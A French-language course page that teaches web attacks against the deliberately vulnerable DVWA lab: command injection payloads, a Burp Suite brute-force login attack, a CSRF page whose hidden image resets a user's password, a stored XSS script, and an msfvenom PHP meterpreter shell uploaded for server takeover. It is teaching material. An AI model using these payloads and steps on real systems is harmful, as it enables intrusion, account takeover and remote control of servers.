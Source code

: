 # Vulnérabilités Web

L'ensemble des démonstrations de ce cours utilise une application Web nommée _Damn Vulnerable Web Application_ ou DVWA. C'est une application avec des vulnérabilités pour tester notre habileté à les exploiter.  

## Exécution de commandes  

Certaines applications Web utilisent les commandes du système d'exploitation pour offrir des services aux utilisateurs. Un pirate peut prendre avantage de ces applications pour exécuter des commandes non prévues.

Dans DVWA, aller dans la section _Command Execution_.

![19-command-execution](../images/2020/07/19-command-execution.png)

L'application permet de faire un ping.

si on entre `192.168.40.7` :  

![19-command-execution-ping](../images/2020/07/19-command-execution-ping.png)

Sous Linux, il est possible d'exécuter plusieurs commandes sur la même ligne avec l'opérateur & ou |.

Essayons de voir le contenu du répertoire courant avec `192.168.40.7 & ls -la`

![19-command-execution-ls-la-ampersand](../images/2020/07/19-command-execution-ls-la-ampersand.png)

Essayons de voir le contenu du répertoire courant avec `192.168.40.7 | ls -la`

![19-command-execution-ls-la-pipe](../images/2020/07/19-command-execution-ls-la-pipe.png)

Nous nous trouvons dans quel répertoire? `192.168.40.7 | pwd`

![19-command-execution-pwd](../images/2020/07/19-command-execution-pwd.png)

Quelle version de Linux roule? `192.168.40.7 | uname -a`

Créons une nouvelle page Web :  `192.168.40.7 | echo "<?php echo 'Salut la gang' ?>" > salut.php`

Essayons de voir le contenu du répertoire courant après la création du fichier avec `192.168.40.7 | ls -la`

![19-command-execution-ls-la-apres-salut-php](../images/2020/07/19-command-execution-ls-la-apres-salut-php.png)

Exécutons la nouvelle page :  

![19-command-execution-salut-php](../images/2020/07/19-command-execution-salut-php.png)

### Source de la vulnérabilité

![19-command-execution-source](../images/2020/07/19-command-execution-source.png)

## Attaque avec une force brute  

Certaines application Web sont susceptibles à une attaque par force brute. Pour démontrer comment faire une telle attaque, nous allons utiliser BurpSuite.  

1 - Créer un projet temporaire :  

![20-burpsuite-projet-temporaire](../images/2020/07/20-burpsuite-projet-temporaire.png)

2 - Démarrer Burp :  

![20-burpsuite-demarrer-burp](../images/2020/07/20-burpsuite-demarrer-burp.png)

3 - Dans l'onglet proxy, mettre intercept à off :  

![20-burpsuite-intercept-off](../images/2020/07/20-burpsuite-intercept-off.png)

4 - Dans firefox, configurer le proxy :  

![20-firefox-proxy](../images/2020/07/20-firefox-proxy.png)

5 - Dans firefox, accéder à la page de DVWA :

![19-firefox-brute-force](../images/2020/07/19-firefox-brute-force.png)  

6 - Mettre intercept à on dans Burpsuite :  

![20-burpsuite-intercept-on](../images/2020/07/20-burpsuite-intercept-on.png)

7 - Dans firefox, entrer 'user1' et 'pass1' et cliquer sur **login** :  

![19-firefox-login-user1-pass1](../images/2020/07/19-firefox-login-user1-pass1.png)

8 - Dans BurpSuite, sélectionner l'action **send to intruder** :  

![19-burpsuite-send-to-intruder](../images/2020/07/19-burpsuite-send-to-intruder.png)

9 - Sélectionner l'onglet **intruder**, le sous-onglet **position** et changer le type d'attaque pour **cluster bomb** :  

![19-burpsuite-payload-position-attack-type](../images/2020/07/19-burpsuite-payload-position-attack-type.png)

10 - Effacer les positions et sélectionner **user1** et **pass1** :  

![19-burpsuite-positions-add](../images/2020/07/19-burpsuite-positions-add.png)

11 - Dans l'onglet payloads, ajouter les codes utilisateurs dans le payload 1 et les mots de passe dans le payload 2 :  

![19-burpsuite-payload-1](../images/2020/07/19-burpsuite-payload-1.png)

![19-burpsuite-payload-2](../images/2020/07/19-burpsuite-payload-2.png)

12 - Dans l'onglet options, ajouter un Grep - Match pour déterminer si l'attaque a réussi ou non :  

![19-burpsuite-option-grep-match](../images/2020/07/19-burpsuite-option-grep-match.png)

13 - Lancer l'attaque :  

![19-burpsuite-start-attack](../images/2020/07/19-burpsuite-start-attack.png)

14 - Résultats de l'attaque, nous avons trouvé 2 mots de passe valides :  

![19-burpsuite-attack-results](../images/2020/07/19-burpsuite-attack-results.png)

## Cross Site Request Forgery (CSRF)  

Avec le CSRF, nous utilisons la session déjà authentifiée d'un utilisateur pour effectuer des actions malicieuses.  

Voici donc une façon d'utiliser la session d'un utilisateur à son insu.  

Créons une page avec le code suivant :  

```
<!DOCTYPE html>
 <head>
  <title>Site malicieux</title>
 </head>
 <body>
  <h1>Rien de malicieux ici, je le jure!</h1>
  <img style="display:none" src="http://192.168.40.14/dvwa/vulnerabilities/csrf/?password_new=hack&password_conf=hack&Change=change" alt="">
 </body>
</html>
```

![19-csrf-site-malicieux](../images/2020/11/19-csrf-site-malicieux.png)

En apparence, le site ne semble rien faire de grave. Regardons par contre les accès réseau de la page :  

![19-csrf-site-malicieux-reseau](../images/2020/11/19-csrf-site-malicieux-reseau.png)

La seconde entrée, celle correspondant au tag img, appelle une page de changement de mot de passe de l'application Web. Si l'utilisateur est déjà authentifié, son mot de passe changera pour **hack**.  


## Cross Site Scripting

Les sites Web qui ont du contenu créé par les utilisateurs (par exemple un forum) peuvent permettre l'exécution de code Javascript injecté dans le contenu. De cette manière, un utilisateur malicieux peut exécuter du code sur le poste d'une victime lors de sa visite du site Web.  

1 - Aller sur la page de XSS (stored) dans DVWA :  

![19-XSS-initial](../images/2020/07/19-xss-initial.png)

2 - Écrire le payload dans le message :  

`<script>alert("Bonjour la planète")</script>`  

![19-XSS-script-payload-alert](../images/2020/07/19-xss-script-payload-alert.png)

3 - Résultats :

![19-XSS-alert-results](../images/2020/07/19-xss-alert-results.png)

## Upload  

Si vous pouvez téléverser un fichier sur le serveur, vous pouvez prendre contrôle du serveur.

1 - Créer un fichier avec un payload à l'aide de MSFVenom :  

`msfvenom -p php/meterpreter/bind_tcp lport=4444 -o mp.php`

![19-msfvenom-php-meterpreter](../images/2020/07/19-msfvenom-php-meterpreter.png)

2 - Aller sur la page upload de DVWA et téléverser mp.php :  

![19-file-upload-mp-php](../images/2020/07/19-file-upload-mp-php.png)

3 - Exécuter le fichier mp.php :  

![19-execute-mp-php](../images/2020/07/19-execute-mp-php.png)

4 - Lancer Metasploit avec le multi handler et le bon payload :  

![19-msfconsole-multi-handler-bind-tcp-meterpreter](../images/2020/07/19-msfconsole-multi-handler-bind-tcp-meterpreter.png)  

!!! important  
    Prenez quelques minutes pour faire votre [cartographie](../outils/cartographie.md) de la leçon d'aujourd'hui!   

## Testez vos connaissances  

[Petit quiz sur les vulnérabilités Web](https://forms.office.com/r/Hymgvx9Avb)  

